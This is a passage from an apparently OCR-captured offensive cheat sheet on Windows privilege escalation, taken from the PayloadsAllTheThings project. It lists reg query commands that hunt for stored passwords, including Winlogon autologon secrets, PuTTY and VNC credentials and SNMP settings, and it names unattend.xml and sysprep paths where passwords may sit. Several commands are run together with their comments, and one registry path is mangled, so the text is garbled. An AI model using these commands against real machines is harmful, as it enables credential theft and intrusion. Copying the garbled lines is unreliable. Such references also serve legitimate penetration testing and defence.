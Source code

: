 REG QUERY HKLM /F "password"  /t REG_SZ /S /K
REG QUERY HKCU /F "password"  /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  # Windows Autologinreg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  # SNMP parametersreg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  # Putty clear text proxy credentialsreg query "HKCU\Software\ORL\WinVNC3\Password"  # VNC credentialsreg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='50'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1415' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#read-a-value-of-a-certain-sub-key)Read a value of a certain sub key

REG QUERY "HKLM\Software\Microsoft\FTH"  /V RuleList

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='51'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1422' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#passwords-in-unattendxml)Passwords in unattend.xml

Location of the unattend.xml files.
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
